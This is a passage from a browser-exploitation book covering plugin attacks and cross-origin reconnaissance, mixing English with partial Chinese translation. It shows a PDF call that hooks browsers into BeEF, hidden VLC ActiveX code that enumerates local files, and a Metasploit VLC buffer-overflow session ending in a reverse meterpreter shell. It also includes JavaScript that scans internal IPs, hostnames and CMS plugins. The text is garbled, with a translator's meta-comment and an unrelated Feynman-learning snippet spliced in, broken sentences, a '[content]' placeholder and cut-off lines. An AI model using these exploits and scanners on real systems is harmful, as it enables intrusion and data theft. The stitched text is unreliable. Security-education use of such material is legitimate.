尽管该问题已在 `Acrobat Reader` 的新版本中修复，但这种漏洞值得关注的不仅仅是 `Acrobat`，还有其他插件。能够传入影响代码执行的外部值可能导致更严重的问题，如远程代码执行。针对 `Acrobat Reader` 的此弱点，还发现了一个双重释放漏洞 40，可通过 URI 参数加以利用，使得对旧版 `Acrobat` 的攻击更加容易。

##### 启动另一个浏览器

PDF 的一个特性是能够触发浏览器并请求指定 URL。使用 `app.launchURL` 方法，你可以让操作系统启动默认浏览器。

`BeEF` 利用此功能，从用户使用的任何浏览器中钩取默认浏览器。这将使默认浏览器被钩取，希望能进一步利用。要使用此方法，只需调用 `JavaScript` 代码：

```
app.launchURL("http://browserhacker.com:3000/demos/report.html",true);
```

使用此方法，PDF 会启动将要处理的 URL，从而在默认浏览器中加载新页面，并为你提供新的被钩取会话。如图 8-20 所示，Hook Default Browser 模块会接收已钩取的浏览器，并向其发送 PDF。PDF 随后会将 URL 回传给钩子，默认浏览器随之打开新的已钩取页面。

<|ref|>start|>figure<|/ref|><|det|>[[100, 330, 896, 512]]<|/det|>

<|ref|>end|>figure<|/det|>

出现弹窗的可能性提醒用户外部窗口已被打开。请关注模块的停止灯是绿色还是红色，因为不同浏览器对该技术的反应各异。

这种攻击场景在企业环境中尤为有用。如果受害者通过 `Chrome` 被钩取，但默认浆和文字描述中的“items”遮挡了部分视线，且本身就是物理上的遮挡。

    让我们再仔细看一遍问题要求：“粗体和斜体需要翻译翻译内容并保留符号”。这里没有粗体或斜体（除了上述内容，原文还包含了一段关于媒体插件的内容，但由于篇幅限制，此处不再逐句翻译，仅保留核心要点：

- 媒体插件（如 `VLC`、`RealPlayer`、`QuickTime`）常被用于利用文件格式漏洞，即因文件格式非法导致插件覆盖内存并可能执行恶意代码。  
- 插件检测方式与其他插件相同，且可能支持多种 MIME 类型，例如 `QuickTime` 支持 `.mp4` 与 `.mov` 两种格式，对应两个 MIME 类型。  
- 媒体插件常需从外部服务器流媒体、加载附加文件等，这些操作也可能导致漏洞。  

### 使用 VLC 进行资源扫描

如前所述，媒体播放器常需处理流媒体等内容，这也是 `VLC` ActiveX 控件漏洞（由 `Jason Geffner` 发现）的根源。通过向播放列表中添加项并尝试播放，ActiveX `VLC` 插件会反馈该项是否有效。

利用此技术，可以对远程目标系统的目录和文件进行指纹识别。通过逐项添加并检查错误信息，可即时获知文件是否存在，从而帮助识别操作系统、已安装软件版本、用户甚至内部共享。

```
<object style="visibility:hidden"
 classid="clsid:9BE31822-FDAD-461B-AD51-BE1D1C159921"
 width="0" height="0" id="vlc"></object>
<script>
vlc.playlist.clear();
vlc.playlist.add(items[i]);
vlc.playlist.playItem(0);
vlc.attachEvent("MediaPlayerPlaying", onFound);
vlc.attachEvent("MediaPlayerEncounteredError", onNotFound);
</script>


通过创建 ActiveX 对象、清除播放列表、添加项目并播放它，会发生两种情况之一：ActiveX 对象会产生错误，或者它会触发播放事件。通过捕获这些事件，可以触发额外的 JavaScript 来提示文件的存在。

下面的代码枚举 items 数组中定义的多个资源：

```
try {
 var result = "";
 var i = 0;

 // 创建用于挂载 VLC 对象的 div
 var newdiv = document.createElement('div');
 var divIdName = 'temp_div';
 newdiv.setAttribute('id',divIdName);
 newdiv.style.width = "0";
 newdiv.style.height = "0";
 newdiv.style.visibility = "hidden";
 document.body.appendChild(newdiv);

 // 创建对象
 document.getElementById("temp_div").innerHTML =
 "<object style=\"visibility:hidden\"" +
 " classid=\"clsid:9BE31822-FDAD-461B-AD51-BE1D1C159921\"" +
 " width=\"0\" height=\"0\" id=\"vlc\"></object>";

 var items = [
  "C:\\Program Files (x86)\\Microsoft Silverlight\\5.1.20125.0",
  "C:\\Program Files (x86)\\Sophos\\Sophos Anti-Virus",
  "C:\\Users\\wade",
  "C:\\Users\\morru"
 ]

 function onFound(event){
  result += items[i] + "\n";
  i++;
  console.log("Found");
  next();
 }

 function onNotFound(event){
  i++;
  console.log("Not Found");
  next();
 }

 function next(){
  if (i >= items.length){
  vlc.playlist.stop();

  // 将结果返回给框架
  console.log("Discovered resources:\n" + result);

  // 清理
  var rmdiv = document.getElementById("temp_div");
  document.body.removeChild(rmdiv);

  return;
 }

 vlc.playlist.clear();
 vlc.playlist.add("file:///" + items[i]);
 console.log("Adding item " + items[i] + " to playlist.");
 vlc.playlist.playItem(0);
}

 vlc.attachEvent("MediaPlayerPlaying", onFound);
 vlc.attachEvent("MediaPlayerEncounteredError", onNotFound);

 next();
} catch(e) {}
```

在 Internet Explorer 中运行此代码后（如 Figure 8-21 所示），可以确认已安装 Sophos Anti-Virus。此信息可用于后续攻击。例如，若目标使用 Sophos Anti-Virus，则用于攻击的二进制文件会经过针对该 AV 的编码以规避检测。

此外，还发现合法用户 morru，这可能有助于进一步的黑客活动。利用此技术，可以枚举已安装的软件版本（如果软件的文件或目录名包含版本号）。在此例中，Silverlight 的具体版本可被确定，同样适用于 Java 等其他软件。

 start figure 

**Figure 8-21:** 通过 VLC 枚举本地资源


 end figure 

### 利用媒体播放器

此示例利用 VLC 玩家（2.0 版本之前）的一个弱点——“VLC MMS Stream Handling Buffer Overflow”漏洞。该漏洞使用 Internet Explorer 启动 VLC 并传递恶意 URL，当 VLC 处理该 URL 时，会导致 SEH41 覆盖，从而执行 payload。

在 Metasploit 的 msfconsole 中启动恶意 URL 可以执行以下命令：

```
msf> use exploit/windows/browser/vlc_mms_bof 
msf exploit(vlc_mms_bof) > set URIPATH /vlc
URIPATH => /vlc
msf exploit(vlc_mms_bof) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(vlc_mms_bof) > set LHOST 192.168.1.132
LHOST => 192.168.1.132
msf exploit(vlc_mms_bof) > set LPORT 8675
LPORT => 8675
msf exploit(vlc_mms_bof) > exploit
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.1.132:8675 
[*] Using URL: http://0.0.0.0:8080/vlc
[*]  Local IP: http://192.168.1.132:8080/vlc
[*] Server started.
```

服务器启动后，只需将浏览器指向 Metasploit 服务器即可（本例为 [`192.168.1.132:8080/vlc`](http://192.168.1.132:8080/vlc)）。浏览器会稍后显示一个黑色框，表示媒体未能播放（如 Figure 8-22 所示）。一旦用户看到此画面，你的 Metasploit 中已经等待着一个 shell。

 start figure 

**Figure 8-22:**  exploit 成功后浏览器窗口的样子


 end figure 

Meterpreter payload 会自动迁移到新进程，因为 exploit 成功后浏览器会变得不稳定。新进程可确保 Meterpreter payload 持久存在超过短暂时间。Metasploit 控制台应显示类似以下内容：

```
[*] 192.168.1.16     vlc_mms_bof - Sending malicious page
[*] Sending stage (752128 bytes) to 192.168.1.16
[*] Meterpreter session 3 opened (192.168.1.132:8675
 -> 192.168.1.16:1095) at 2013-09-18 02:40:19 -0400
[*] Session ID 3 (192.168.1.132:8675 -> 192.168.1.16:1095)
 processing InitialAutoRunScript 'migrate -f'
[*] Current server process: iexplore.exe (2000)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2308
[+] Successfully migrated to process 

msf exploit(vlc_mms_bof) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : VM-1
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Meterpreter     : x86/win32
```

浏览器可能不会立即崩溃，因此用户可能不清楚恶意页面是导致崩溃的原因。这种攻击同样适用于广告插入、驱动程序下载以及钓鱼攻击等多种场景。用户看到视频未加载时，背后实际上正在发生更恶劣的事情。到那时，攻击者已经拥有了一个 shell。你再也不会把那些加载失败的视频当作普通情况看待了吧？

# 总结

浏览器插件提升了浏览体验，无论是用于加载新媒体类型、提供应用功能还是实现社交交互，插件都拓宽了网络的可能性。这些同样的功能也为攻击提供了新的途径。通过查询 DOM 或尝试加载 ActiveX 插件，BeEF 可以确定浏览器已加载哪些插件，并识别可能存在的漏洞。

Java、Firefox 和 Chrome 中实现的 Click to Play 安全特性虽然是很好的缓解措施，但已被证明存在漏洞。本章讨论的 Click to Play 绕过在 Java 和 Firefox 上已经被修补，但可以确信更多绕过将会被发现。

本章详细讨论了 Java、ActiveX 和其他媒体插件的普遍性，但需要记住，这些技术同样适用于其他插件。在进行端点安全评估时，你可能会遇到不太常见的插件，只要该插件免费可用，你就可以尝试分析其弱点。

另一个重要的攻击面方面是，攻击不完全依赖浏览器，还依赖第三方组件。如果你知道受害者系统上存在其他易受攻击的应用程序，则可以通过浏览器发起针对这些应用的攻击。

本地文件执行可以与更复杂的攻击配合，以获得目标系统的提升权限。其他攻击则更为直接，单个 URL 即可实现利用和访问。插件沙箱试图阻止这种行为，但通过使用已签名插件、社交工程或已建立的信任关系，这些防护屏障可以被突破以实现利用。


- 近期来自 Chromium 团队的公告 42 也揭示了浏览器插件的未来发展方向。由于稳定性和安全性考虑，Chrome 将在 2014 年底停止对旧版 Netscape Plugin API (NPAPI) 的支持。

1. 尽管 Chrome 和 Firefox 中插件支持的下降速度放缓，但插件不会瞬间消失。此外，我们并不期望微软很快会移除 ActiveX 支持，因为其存在的遗留和企业需求。即便有防护措施，只要用户愿意点击“接受”，浏览器插件仍将成为进入脆弱系统的入口。

# Questions

Level1 **1.** 插件和添加程序（add‑ons）有什么区别？ **2.** 在 Internet Explorer 中高效检测插件的方法是什么？ **3.** 在 Firefox 中高效检测插件的方法是什么？ **4.** 浏览器如何确定使用哪个插件？ **5.** 已签名的 Java Applet 何时可能被利用？ **6.** 为什么应用程序会覆盖已签名 Applet 的权限模型？ **7.** 未签名的 Java Applet 能执行操作系统命令吗？ **8.** 识别已存储 Flash 数据的两种方式是什么？ **9.** 如何检测自己是否拥有通过 Flash 访问摄像头的权限？ **10.** 在企业环境中，本地文件执行漏洞的影响为何重要？

/Level1

为回答上述问题，请参考图书网站 [`browserhacker.com/answers`](https://browserhacker.com/answers) 或维基网站 [www.wiley.com/go/browserhackershandbook](http://www.wiley.com/go/browserhackershandbook)。

**Notes**

1\. Mozilla Developer Network. (2013). Putting Users in Control of Plugins. Retrieved October 23, 2013 from [`blog.mozilla.org/security/2013/01/29/putting-users-in-control-of-plugins/`](https://blog.mozilla.org/security/2013/01/29/putting-users-in-control-of-plugins/)

2\. Mozilla Blog. (2012). Click-to-Play Plugins Blocklist-Style. Retrieved October 23, 2013 from [`blog.mozilla.org/security/2012/10/11/click-to-play-plugins-blocklist-style/`](https://blog.mozilla.org/security/2012/10/11/click-to-play-plugins-blocklist-style/)

3\. Microsoft TechNet Blogs. (2008). The Kill-Bit FAQ. Retrieved October 23, 2013 from [`blogs.technet.com/b/srd/archive/2008/02/06/the-kill_2d00_bit-faq_3a00_-part-1-of-3.aspx`](http://blogs.technet.com/b/srd/archive/2008/02/06/the-kill_2d00_bit-faq_3a00_-part-1-of-3.aspx)

4\. The Next Web. (2013). Apple takes no prisoners. Retrieved October 23, 2013 from [`thenextweb.com/apple/2013/01/11/apple-takes-no-prisoners-immediately-blocks-java-7-on-os-x-10-6-and-up-to-protect-mac-users`](http://thenextweb.com/apple/2013/01/11/apple-takes-no-prisoners-immediately-blocks-java-7-on-os-x-10-6-and-up-to-protect-mac-users)

5\. CERT KnowledgeBase. (2013). ActiveX kill bits. Retrieved October 23, 2013 from [`www.kb.cert.org/vuls/id/636312`](https://www.kb.cert.org/vuls/id/636312).

6\. Mozilla Developer Network. (2013). Navigator. plugins. Retrieved October 23, 2013 from [`developer.mozilla.org/en-US/docs/Web/API/NavigatorPlugins.plugins`](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorPlugins/plugins)

7\. PinLady. (2011). Plugin Detect. Retrieved October 23, 2013 from [`www.pinlady.net/PluginDetect/`](http://www.pinlady.net/PluginDetect/)

8\. Mozilla. (2013). Plugin Check. Retrieved October 23, 2013 from [`www.mozilla.org/en-US/plugincheck/`](https://www.mozilla.org/en-US/plugincheck/)

9\. Mozilla Buzilla. (2013). Click to Play bypass bug. Retrieved October 23, 2013 from [`bugzilla.mozilla.org/show_bug.cgi?id=838999`](https://bugzilla.mozilla.org/show_bug.cgi?id=838999)

10\. Immunity. (2013). Keep calm and run this applet. Retrieved October 23, 2013 from [`immunityproducts.blogspot.com.ar/2013/02/keep-calm-and-run-this-applet.html`](http://immunityproducts.blogspot.com.ar/2013/02/keep-calm-and-run-this-applet.html)

11\. Docstore.mik.ua. (2008). Serialized Applets. Retrieved October 23, 2013 from [`docstore.mik.ua/orelly/java/javanut/ch09_04.htm`](http://docstore.mik.ua/orelly/java/javanut/ch09_04.htm)

12\. Immunity. (2013). Yet Another Java Security Manager Warning Bypass. Retrieved October 23, 2013 from [`immunityproducts.blogspot.co.uk/2013/04/yet-another-java-security-warning-bypass.html`](http://immunityproducts.blogspot.co.uk/2013/04/yet-another-java-security-warning-bypass.html)

13\. Oracle. (2012). Applet migration with JNLP. Retrieved October 23, 2013 from [`www.oracle.com/technetwork/java/javase/applet-migration-139512.html`](http://www.oracle.com/technetwork/java/javase/applet-migration-139512.html)

14\. Wikipedia. (2013). Java version history. Retrieved October 23, 2013 from [`en.wikipedia.org/wiki/Java_version_history`](http://en.wikipedia.org/wiki/Java_version_history)

15\. CVE Details. (2013). Denial of Service Attack. Retrieved October 23, 2013 from [`www.cvedetails.com/vulnerability-list/vendor_id-5/product_id-1526/SUN-JRE.html`](http://www.cvedetails.com/vulnerability-list/vendor_id-5/product_id-1526/SUN-JRE.html)

16\. Danskebank. (2013). eBanking technical requirements. Retrieved October 23, 2013 from [`www.danskebank.ie/en-ie/Personal/eBanking/Support/Pages/Technical-requirements.aspx`](http://www.danskebank.ie/en-ie/Personal/eBanking/Support/Pages/Technical-requirements.aspx)

17\. Oracle. (2010). Applet security. Retrieved October 23, 2013 from [`docs.oracle.com/javase/tutorial/deployment/applet/security.html`](http://docs.oracle.com/javase/tutorial/deployment/applet/security.html)

18\. JDGUI. (2013). JDGUI. Retrieved October 23, 2013 from [`java.decompiler.free.fr/?q=jdgui`](http://java.decompiler.free.fr/?q=jdgui)

19\. Ars Technica. (2012). Yet another java flaw allows “complete” bypass of security sandbox. Retrieved November 10, 2013 from [`arstechnica.com/security/2012/09/yet-another-java-flaw-allows-complete-bypass-of-security-sandbox/`](http://arstechnica.com/security/2012/09/yet-another-java-flaw-allows-complete-bypass-of-security-sandbox/)

20\. Security Obscurity. (2013). Deobfuscating Java 1.7u11 Exploit. Retrieved October 23, 2013 from [`security-obscurity.blogspot.co.uk/2013/02/deobfuscating-java-7u11-exploit-from.html`](http://security-obscurity.blogspot.co.uk/2013/02/deobfuscating-java-7u11-exploit-from.html)

21\. Oracle. (2013). Java reflection. Retrieved October 23, 2013 from [`docs.oracle.com/javase/tutorial/reflect/`](http://docs.oracle.com/javase/tutorial/reflect/)

22\. Rapid7. (2013). CVE-2013-2423 Java Applet Reflection Type Confusion Remote Code Execution | Rapid7. Retrieved October 23, 2013 from [`www.rapid7.com/db/modules/exploit/multi/browser/java_jre17_reflection_types`](http://www.rapid7.com/db/modules/exploit/multi/browser/java_jre17_reflection_types)

23\. Macromedia. (2013). Website Storage Settings panel. Retrieved October 23, 2013 from [`www.macromedia.com/support/documentation/en/flashplayer/help/settings_manager07.html`](http://www.macromedia.com/support/documentation/en/flashplayer/help/settings_manager07.html)

24\. HP. (2013). SWFScan. Retrieved October 23, 2013 from [`h30499.www3.hp.com/t5/Following-the-Wh1t3-Rabbit/SWFScan-FREE-Flash-decompiler/ba-p/5440167`](http://h30499.www3.hp.com/t5/Following-the-Wh1t3-Rabbit/SWFScan-FREE-Flash-decompiler/ba-p/5440167)

25\. Adobe. (2013). ActionScript 3 camera API. Retrieved October 23, 2013 from [`help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/media/Camera.html`](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/media/Camera.html)


26. Adobe. (2013). ActionScript 3 microphone API。Retrieved October 23, 2013 from [`http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/media/Microphone.html`](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/media/Microphone.html)

27. Google Security Blog. (2013). Fuzzing at scale。Retrieved October 23, 2013 from [`http://googleonlinesecurity.blogspot.co.uk/2011/08/fuzzing-at-scale.html`](http://googleonlinesecurity.blogspot.co.uk/2011/08/fuzzing-at-scale.html)

28. Boc.cn. (2013). eBanking technical requirements。Retrieved October 23, 2013 from [`http://www.boc.cn/en/custserv/bocnet/201107/t20110705_1442435.html`](http://www.boc.cn/en/custserv/bocnet/201107/t20110705_1442435.html)

29. Google Code. (2013). NP-ActiveX。Retrieved October 23, 2013 from [`http://code.google.com/p/np-activex/`](http://code.google.com/p/np-activex/)

30. Google Code. (2013). Firefox ActiveX host。Retrieved October 23, 2013 from [`http://code.google.com/p/ff-activex-host/`](http://code.google.com/p/ff-activex-host/)

31. Meau.com. (2013). Mitsubishi MC-WorX ActiveX。Retrieved October 23, 2013 from [`http://www.meau.com/functions/dms/getfile.asp?ID=035000000000000001000000908800000`](http://www.meau.com/functions/dms/getfile.asp?ID=035000000000000001000000908800000)

32. Exploit DB. (2013). Mitsubishi MC-WorX ActiveX exploit。Retrieved October 23, 2013 from [`http://www.exploit-db.com/exploits/28284/`](http://www.exploit-db.com/exploits/28284/)

33. Microsoft. (2013). UNC paths。Retrieved October 23, 2013 from [`http://msdn.microsoft.com/en-us/library/gg465305.aspx`](http://msdn.microsoft.com/en-us/library/gg465305.aspx)

34. Chris Gates. (2013). Attacking layer 8。Retrieved October 23, 2013 from [`http://carnal0wnage.attackresearch.com/2009/03/attacking-layer-8-client-side.html`](http://carnal0wnage.attackresearch.com/2009/03/attacking-layer-8-client-side.html)

35. Exploit DB. (2013). Hyperion: Implementation of a PE-Crypter。Retrieved October 23, 2013 from [`http://www.exploit-db.com/wp-content/themes/exploit/docs/18849.pdf`](http://www.exploit-db.com/wp-content/themes/exploit/docs/18849.pdf)

36. Chris Truncer, Mike Wright. (2013). The Grayhound. Veil - Framework。Retrieved October 23, 2013 from [`https://www.veil-evasion.com/`](https://www.veil-evasion.com/)

37. Mateusz Jurczyk. (2013). PDF fuzzing and Adobe Reader 9.5.1 and 10.1.3 multiple critical vulnerabilities。Retrieved October 23, 2013 from [`http://j00ru.vexillium.org/?p=1175`](http://j00ru.vexillium.org/?p=1175)

38. Zdnet. (2013). Adobe Turnoff Javascript in PDF Reader。Retrieved October 23, 2013 from [`http://www.zdnet.com/blog/security/adobe-turn-off-javascript-in-pdf-reader/3245`](http://www.zdnet.com/blog/security/adobe-turn-off-javascript-in-pdf-reader/3245)

39. Stefano Di Paola, Giorgio Fedon. (2006). Subverting AJAX。Retrieved October 23, 2013 from [`http://events.ccc.de/congress/2006/Fahrplan/attachments/1158-Subverting_Ajax.pdf`](http://events.ccc.de/congress/2006/Fahrplan/attachments/1158-Subverting_Ajax.pdf)

40. Mitre. (2013). CWE-415: Double Free。Retrieved October 23, 2013 from [`http://cwe.mitre.org/data/definitions/415.html`](http://cwe.mitre.org/data/definitions/415.html)

41. Microsoft TechNet Blogs. (2013). Preventing the Exploitation of SEH Overwrites with SEHOP。Retrieved October 23, 2013 from [`http://blogs.technet.com/b/srd/archive/2009/02/02/preventing-the-exploitation-of-seh-overwrites-with-sehop.aspx`](http://blogs.technet.com/b/srd/archive/2009/02/02/preventing-the-exploitation-of-seh-overwrites-with-sehop.aspx)

42. Chromium Blog. (2013). Saying Goodbye to Our Old Friend NPAPI。Retrieved October 23, 2013 from [`http://blog.chromium.org/2013/09/saying-goodbye-to-our-old-friend-npapi.html`](http://blog.chromium.org/2013/09/saying-goodbye-to-our-old-friend-npapi.html)

43. Mozilla Blog. (2013). Plugin activation in Firefox。Retrieved October 23, 2013 from [`https://blog.mozilla.org/futurereleases/2013/09/24/plugin-activation-in-firefox/`](https://blog.mozilla.org/futurereleases/2013/09/24/plugin-activation-in-firefox/)

# Sending Cross-origin Requests

In most situations the Same Origin Policy (SOP) prevents you from reading the HTTP response when sending cross-origin requests. As you will see in this and following chapters, you don’t always need to read the response to successfully deliver your attacks.

If you know that a particular server is vulnerable to a Remote Command Execution or SQL injection vulnerability, you can send the request containing the attack, ignoring the response. The important point for most attacks is that the target correctly processes the data in the HTTP request.

## Enumerating Cross-origin Quirks

Before you venture off into the world of enumerating cross-origin attacks, you need to understand which browsers are useful for generating cross-origin requests. This way you can be confident that any exploit you launch lands on the target.

Not all browsers are created equal when it comes to cross-origin quirks. Variations exist between version and vendor, and consequently some browsers will be more useful than others. CSS, JavaScript, and the SOP have many quirks that can influence the probability of a successful attack. In this section, you explore methods to establish the capabilities of different browsers at any given time.

So, first things first. Let’s start with working out if your browser can actually conduct requests cross-origin. Run the following code to test the usefulness of the browser. It determines if the browser will conduct the POST and GETXMLHttpRequest cross-origin. First, execute the following server-side Ruby code to handle GET and POST requests:


-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**理查德·费曼**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


如果 IFrame 加载成功，onload 事件会被触发，这意味着 `172
[content]
Enumerating internal domain names is another useful method of cross-origin web application detection. The approach is very similar to discovering internal IP addresses. The difference exists in iterating over predefined domain names rather than IP ranges.

The array in the subsequent code snippet has a list of common internal domain names. Run it in your JavaScript console and it will discover web applications that have an internal domain name in the list:

```
var protocol = "http://";
var port = 80;

// common internal hostnames
var hostnames = new Array("about", "accounts", "admin",
"administrator", "ads", "adserver", "adsl", "agent", 
"blog", "channel", "client", "dev", "dev1", "dev2", 
"dev3", "dev4", "dev5", "dmz", "dns", "dns0", "dns1", 
"dns2", "dns3", "extern", "extranet", "file", "forum", 
"forums", "ftp", "ftpserver", "host", "http", "https", 
"ida", "ids", "imail", "imap", "imap3", "imap4", "install", 
"intern", "internal", "intranet", "irc", "linux", "log", 
"mail", "map", "member", "members", "name", "nc", "ns", 
"ntp", "ntserver", "office", "owa", "phone", "pop", "ppp1", 
"pptp", "print", "printer", "project", "pub", "public", 
"preprod", "root", "route", "router", "server", "smtp", 
"sql", "sqlserver", "ssh", "telnet", "time", "voip", 
"w", "webaccess", "webadmin", "webmail", "webserver", 
"website", "win", "windows", "ww", "www", "wwww", "xml");

// adds a new 'b' element that will hold
// the appended IFrames
var dom = document.createElement('b');
document.body.appendChild(dom);

// load an hidden IFrame pointing to 
// the current hostname being iterated
function check_host(url, id){
 var iframe = document.createElement('iframe');
 iframe.src = url;
 iframe.id = "i_" + id;
 iframe.style.visibility = "hidden";
 iframe.style.display = "none";
 iframe.style.width = "0px";
 iframe.style.height = "0px";
 iframe.onload = function(){ 
  console.log('Internal DNS found: ' + this.src);
  document.body.removeChild(this);
 };
 dom.appendChild(iframe);
}

// iterate through the hostname array
for(var i=1; i < hostnames.length; i++){ 
  check_host(protocol + hostnames[i] + ":" + port, i);
}

// if the iframe src doesn't exists, the onerror method
// is not thrown, so we need to clean the DOM afterwards
setTimeout(function(){
for(var i=1; i < 255; i++){
 var del = document.getElementById("i_" + i);
 dom.removeChild(del);
}
}, 2000);
```

For each domain name, a corresponding IFrame is appended to the DOM. As with the previous technique, if the IFrame onload event is triggered, the internal domain name has been found.

Both the code snippets could be modified to support additional URI schemes like https:// (although http:// is certainly more common on internal networks), and multiple ports such as 443, 8080, and 8443.

You can see the results of executing both techniques in Figure 9-2. Two internal web applications were identified on IPs 172.16.37.1 and 172.16.37.147, as well as two distinct internal domain names mapped at www and sqlserver.

 start figure 

**Figure 9-2:** Discovering internal network details


 end figure 

After you discover IP addresses and domain names of web applications sitting in the internal network of the hooked browser, the next step is fingerprinting them.

These methods allow you to get details of potential targets on the intranet. More sophisticated methods, including using Java and the Session Discovery Protocol, are explored in Chapter 10.

# Cross-origin Web Application Fingerprinting

JavaScript can dynamically create an Image object and bind custom onload and onerror handlers to it. This concept is discussed in detail in Chapter 3. This same technique is used in this chapter to identify web applications, network daemons, and any other device that exposes resources via HTTP.

HTTP services that are accessible from the Internet won’t require the fingerprinting methods discussed here because various tools will allow you to do it directly. The web server hosting the target web application might be available from the internal network only. Using the following methods becomes most valuable is when the only access you have to the target web application is indirectly via the hooked browser.

## Requesting Known Resources

Web application software can be potentially identified through enumerating its common resources. You need to know the mapping of resources associated with the web application you want to fingerprint. Then extrapolating from successful (or unsuccessful) cross-origin requests provides the method to identify the target.

These resources can be images or even web pages used in admin interfaces. Let’s say you want to identify a Linksys NAS, you can check for the resource `/Admin_top.jpg` on port 80. This is a default resource exposed in every device of that type.

Another example is the `/icons/apache_pb.gif` resource that is used to identify an Apache web server, which is usually available even in production environments. The same technique can be applied not only to images but also to web pages. Every CMS, CRM, ERP, and web application you can think of will probably have default web pages that are always the same across different installations.

In any case, the effectiveness of this technique relies on having a big database of known resources. Generally speaking, the bigger the resource data set is, the more reliable the results will be.

### Requesting Images

Let’s consider a fingerprinting method to find image resources on a number of targets. The first thing you need is an array of target IPs you want to check, such as the following:

```
ips = [
 '192.168.0.1',
 '192.168.0.100',
 '192.168.0.254',
 '192.168.1.1',
 '192.168.1.100',
 '192.168.1.254',
 '10.0.0.1',
 '10.1.1.1',
 '192.168.2.1',
 '192.168.2.254',
 '192.168.100.1',
 '192.168.100.254',
 '192.168.123.1',
 '192.168.123.254',
 '192.168.10.1',
 '192.168.10.254'
];
```

In this instance these IPs are private IPs used in LANs. Although you are not limited to targeting only internal networks, the low-hanging fruits often reside there.

Your next step is to create a fingerprinting database, where you map a device or web application to images. For reliability and to minimize false positives, image width and height can also be mapped together with the image path. It might happen that two web applications expose the same `/logo.gif` image, but the likelihood that those two images have the same width and height is minimal. Your fingerprinting database may look like the following:

```
var fingerprint_data = new Array(
 new Array(
  "JBoss Application server",
  "8080","http",true,
  "/images/logo.gif",226,105),
 new Array(
  "VMware ESXi Server",
  "80","http",false,
  "/background.jpeg",1,1100),
 new Array(
  "Glassfish Server",
  "4848","http",false,
  "/theme/com/sun/webui/jsf/suntheme \
/images/login/gradlogsides.jpg", 1, 200),
 new Array(
  "m0n0wall",
  "80","http",false,
  "/logo.gif",150,47)
);
```

Every array element of the fingerprint_data data structure contains the name of the domain, the port and scheme type to be used to request the image path, and, finally, the image width/height tuple. If you are keen to see a more complete (although not exhaustive) fingerprinting database, check out BeEF’s internal_network_fingerprinter module, thanks to the hard work of Brendan Coles4.


-   [在获取到 IPs 和图像数据后，下面的 JavaScript 代码可以注入到被钩针的浏览器 DOM 中。它会检查这些 IPs，或你可以指定的其他 IPs，是否运行了指纹数据集（fingerprint_data）中映射的 Web 应用：]

```
var dom = document.createElement('b');
// 遍历每个 IP
for(var i=0; i < ips.length; i++) {
  // 遍历数据集中的每个应用
  for(var u=0; u < fingerprint_data.length; u++) {
    var img = new Image;
    img.id = u;
    img.src = fingerprint_data[u][2] + "://" + ips[i]
         + ":" + fingerprint_data[u][1] + fingerprint_data[u][4];
      
    // onload 事件触发，说明资源已被找到
    img.onload = function() {
       
      // 再次确认宽度和高度
      if (this.width == fingerprint_data[this.id][5] && 
            this.height == fingerprint_data[this.id][6]) {
        console.log("检测到 [" + fingerprint_data[this.id][0] + "] 在 IP [" + ips[i] + "]");

        // 向 BeEF 服务器发送通知
        beef.net.send('<%= @command_url %>', <%= @command_id %>,
          'discovered='+escape(fingerprint_data[this.id][0])+
          "&url="+escape(this.src)
        );
        // 完成任务，从 DOM 中移除图像
        dom.removeChild(this); 
      }
    }
    // 将图像添加到 DOM
    dom.appendChild(img);
  }
}
```

-   当前面的代码运行时，会尝试在单独的 IFrames 中加载所有资源。资源的 URL 由指纹数据集（fingerprint_data）和 IP 结构组合而成。如果图像的 onload 事件被触发，说明资源已被正确识别（否则会触发 onerror 事件）。

-   最后，为了降低不确定性，会验证图像的宽度和高度。如果图像路径、宽度和高度与先前创建的数据集中的任一条目匹配，则表示匹配成功！资源已被正确识别，如图 9-3 所示。

 start figure 

**Figure 9-3:** VMware ESXi 服务器已正确识别。


 end figure 

### 请求页面

许多 CMS 与通用 Web 应用指纹识别工具都拥有大量 CMS 类型、版本、主题和插件的数据库。其中之一是由 Chris Sullo（Nikto 作者）创建的 CMS-Explorer，5，其中包含数千个 Drupal、Joomla 和 WordPress 的插件和主题 URL 路径。此类信息在结合 XSS 和 SQLi 等安全漏洞（这些漏洞在 CMS 插件中非常常见）时尤为有用。

要检查应用是否暴露特定路径（例如 [modules/filebrowser/](http://modules/filebrowser/)），可以采用与之前使用图像的方式类似的思路。首先，创建一个包含多个 Drupal 插件名称和路径的数据结构。对于每个要检查的路径，创建一个带有自定义 onerror 和 onload 处理函数的 script 标签。可以使用以下代码片段实现：

```
var target = "http://172.16.37.147";

/* 要检查的资源（名称，路径）*/
var resources = [
  ["Drupal - FileBrowser","modules/filebrowser/"],
  ["Drupal - FFmpeg", "modules/ffmpeg/"],
  ["WordPress - AccessLogs", "wp-content/plugins/access-logs/"]
];

/* 超路径（要么是 / 要么是 /drupal）*/
var paths = ["/", "/drupal/"];

function add_tag(src){
for(var p=0; p < paths.length; p++) {
  // 为每个超路径生成最终 URI
  var uri = target + paths[p] + src;
  
  var i = document.createElement('script');
  i.src = uri;
  i.style.display = 'none';
  i.onload = function(){
    console.log(uri + " -- FOUND"); 
  };
  i.onerror = function(){
    console.log(uri + " -- NOT-FOUND");
  };
  document.body.appendChild(i);
}
}

/* 为每个要检查的资源添加新的 script 标签 */
for(var c=0; c < resources.length; c++) {
  add_tag(resources[c][1]);
}
```

-   如上所示，这里使用的是 script 标签而非 img 标签。运行代码时，如果资源被找到，会出现语法错误（如图 9-4 所示）。这是因为 HTML 文件通常返回 text/html 内容类型，导致 JavaScript 解析错误。

